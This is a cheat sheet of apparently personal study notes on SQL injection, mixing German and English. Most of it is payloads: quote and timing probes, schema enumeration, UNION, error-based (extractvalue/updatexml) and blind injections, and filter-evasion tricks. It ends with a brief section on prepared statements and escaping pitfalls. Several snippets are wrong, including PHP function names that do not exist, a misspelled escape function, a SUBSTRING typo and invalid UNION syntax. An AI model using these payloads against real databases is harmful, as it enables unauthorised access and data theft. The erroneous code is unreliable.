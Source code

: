 # Abfragen
```sql
SELECT col1, ..., colN FROM [DB].table [WHERE condition] [ORDER BY col [DESC]] [LIMIT N,M]
```

##### Subquerys
```sql
SELECT * FROM inbox WHERE email = (SELECT email FROM contacts WHERE user = 'admin');
SELECT NOW();
SELECT * WHERE ID = 8/4;
```

# Injections
Find point of interest in PHP:
```php
mysql_request(), mysqli_request(), mssql_request(), pg_request(), ora_exec()
```
... `where id =' + $_[GET]`
```sql
... WHERE id = 0 OR True
```

# Phases:
# 1. Injection Testing
Test for:
- Quotes: `'`, `"`, or `` ` `` (On error: That is probably the quote used in the code)
- SQL-Befehle (Ungültige Syntax)
- Backslashes: `\` or `\\`
- Rechenoperationen: `id=3` vs. `id=4-1`
- Kommentar-Zeichen: `#`,`/*`,`-- Kommentar`, `;%00`
- Timing: `sleep` (can disturb the databases operation!)
- Boolean Logic: `id=1 and 1` vs. `id=1 or 0`
# 2. Information Gathering
### Get Version
`@@version` or `version()`
### Get User
`@@user` or `user()`
### Get Tablenames
`schema()` or `database()`
###### MySQL
```
SELECT * FROM information_schema.columns where table_schema=database()
```
##### SQLite
```
select * from sqlite_master where type = 'table'
```
##### Postgres
```
SELECT distinct table_name FROM information_schema.tables
```

### Get Column names
```sql
SELECT group_concat(table_column) FROM information_schema.tables WHERE table_name="users"
```
# SQLi Typen
### In-Band
##### Union based
`SELECT username FROM users WHERE id=`...
```sql
0 UNION SELECT password FROM users WHERE id=0 UNION SELECT 3
```
Anzahl ausgewählter Spalten muss in allen Anfragen gleich sein
-> Negate the first request with "AND 1=0"
-> Find out the number of columns in the first request by observing errors
	-> `UNION SELECT 1` -> `UNION SELECT 1,2` -> `UNION SELECT 1,2,3` -> ...
	-> `ORDER BY 1` -> `ORDER BY 2` -> `ORDER BY 3` -> ... 
When there is only one column in the first request, e.g., `SELECT 1`..., use group_concat() to concat all returning columns to one string
```sql
UNION group_concat(SELECT * FROM target_db)
```


##### Error based
`index.php?id=`...
XML-Funktionen:
```sql
1 AND extractvalue(1, CONCAT(0x2e, (SELECT @@version)))
```
```sql
1 AND updatexml(1, CONCAT(0x2e, (SELECT @@version)), 1)
```
-> XPATH syntax error contains sql version or what ever we request

Conditional error/response
```sql
1 UNION SELECT if(versioN() like "4%", 1, (SELECT 1 UNION SELECT 2)
```

Viele weitere Vektoren
### Blind
```sql
AND (SELECT SUSBTRING(table_name,1,1) FROM information_schema.tables) > 'A'
```
##### Boolean based
##### Time based 

### Out-of-band
Can it evaluate DNS querys? Then you could host your own DNS server and log communication. Can it write files? Interpret HTTP?

# Filter Evasion
Case sensitiv?
`UNION` vs `unION`

Blacklist?
`ununionion`

Encoding?
AA: 0x4141

Typecasting?
`0='c'`
`0=0`
`1 (True)`

Use `IF` instead of `WHERE`
Use `%09` instead of Tab
Use `%0a` or `%a0` instead of Newline

# Safe?
##### Prepared Statements are safe (when correctly implemented)
```php
$search = $_GET['search']
$mysqli->prepare("SELECT message FROM posts WHERE message LIKE ?")
bind_params("s", $search)
```
##### mysql_real_esacpe_string escapes, e.g.,  `%` and `"` but nothing else!
```php
$mysqli.mysql_real_esacpe_string($search).'%"'
```
##### is_numeric
Safe, but `is_numeric(0x414141) = true` !
##### addslashes
escapes special chars with slashes. Safe, if database and php use the same charset!
`addslashes(x%bf%27 UNION SELECT)= x%bf\' UNION SELECT`
-> PHP sees this as escaped, but the database might read `x%bf%27` as special asian character and then read it as `special_char' UNION SELECT` See https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string